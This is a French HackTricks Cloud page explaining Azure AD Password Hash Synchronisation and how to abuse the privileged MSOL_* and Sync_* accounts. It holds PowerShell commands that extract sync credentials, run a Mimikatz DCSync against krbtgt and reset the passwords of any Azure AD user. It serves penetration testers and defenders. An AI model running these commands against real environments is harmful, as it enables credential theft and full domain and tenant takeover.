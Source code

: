 # Az - PHS - Synchronisation de Hash de Mot de Passe

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de Base

La **synchronisation de hash de mot de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hash, du hash, du mot de passe d'un utilisateur depuis une instance Active Directory locale vers une instance Azure AD basée dans le cloud.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD local avec Azure AD.

Tous les **utilisateurs** et un **hash des hashes de mot de passe** sont synchronisés du local vers Azure AD. Cependant, les **mots de passe en clair** ou les **hashes originaux** ne sont pas envoyés à Azure AD.
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** avec Azure AD.

La **synchronisation des hashes** se produit toutes les **2 minutes**. Cependant, par défaut, l'**expiration du mot de passe** et l'**expiration du compte** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe local est expiré** (non modifié) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur local souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

Le **PHS** est requis pour des fonctionnalités telles que **Identity Protection** et les Services de Domaine AAD.

## Pivotement

Lorsque le PHS est configuré, certains **comptes privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD local. Ce compte se voit attribuer un rôle de **Comptes de Synchronisation d'Annuaire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD local**.
* Un compte **`Sync_<nom du serveur ADConnect local>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de N'IMPORTE QUEL utilisateur** (synchronisé ou uniquement dans le cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé.** Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.
La base de données se trouve dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration de l'une des tables, l'une étant chiffrée :

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

La **configuration chiffrée** est chiffrée avec **DPAPI** et contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD local et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, compromettre ces éléments permet de s'élever en privilèges dans l'AD et dans AzureAD.

Vous pouvez trouver un [aperçu complet de la manière dont ces identifiants sont stockés et déchiffrés dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trouver le **serveur Azure AD connect**

Si le **serveur où Azure AD connect est installé** est joint au domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Abuser de MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces identifiants.
{% endhint %}

### Abuser de Sync\_\*

Compromettre le compte **`Sync_*`** permet de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les administrateurs globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement dans le cloud** (même si cela est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible de récupérer le mot de passe de cet utilisateur

### Seamless SSO

Il est possible d'utiliser Seamless SSO avec PHS, ce qui est vulnérable à d'autres abus. Vérifiez-le dans :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
